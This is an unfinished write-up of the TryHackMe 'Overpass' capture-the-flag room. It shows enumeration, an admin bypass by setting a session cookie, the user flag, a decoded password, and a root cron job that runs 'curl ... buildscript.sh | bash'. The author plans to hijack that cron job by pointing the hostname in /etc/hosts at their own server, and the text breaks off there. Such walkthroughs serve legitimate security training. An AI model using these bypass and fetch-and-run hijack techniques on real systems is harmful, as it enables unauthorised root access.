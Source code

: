 ```
room: https://tryhackme.com/room/overpass
Style: Unguided
Difficulty: Easy/Beginner
```
IP : 10.10.134.45

About us Info might be useful:
```
  Ninja - Lead Developer
  Pars - Shibe Enthusiast and Emotional Support Animal Manager
  Szymex - Head Of Security
  Bee - Chief Drinking Water Coordinator
  MuirlandOracle - Cryptography Consultant
```

I first ran nmap and Gobuster to see if we can find some interesting things.

nmap did not give me any results that i cared about.4

Found /admin/ with gobuster

Found Javascript checking if some cookie is set full-stop.

Executing 'Cookies.set("SessionToken",200);' works on getting Admin Access.


We found a SSH key here

```
LINK TO id_rsa
```


2
First User Flag
``thm{65c1aaf000506e56996822c6281e6bf7}``

```
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
Encrypted Password:

`,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`

adding this string to .overpass on local system, then running program and asking all passwords produces:

``System 	 saydrawnlyingpicture``

linpeas found something interesting:


* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

This is called by Root, so we can overwrite overpass.thm and serve our own if we have access to /etc/hosts

I overwrite the ip in /etc/hosts with my own and host a webserver serving
